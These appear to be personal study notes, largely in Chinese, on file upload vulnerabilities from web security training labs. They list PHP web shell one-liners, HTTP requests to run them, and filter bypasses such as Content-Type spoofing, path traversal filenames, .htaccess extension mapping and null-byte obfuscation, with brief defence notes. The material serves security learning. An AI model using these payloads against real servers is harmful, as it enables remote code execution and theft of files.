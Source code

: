## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## 防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg
<br>
**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">
<br>
**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp <br>
**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
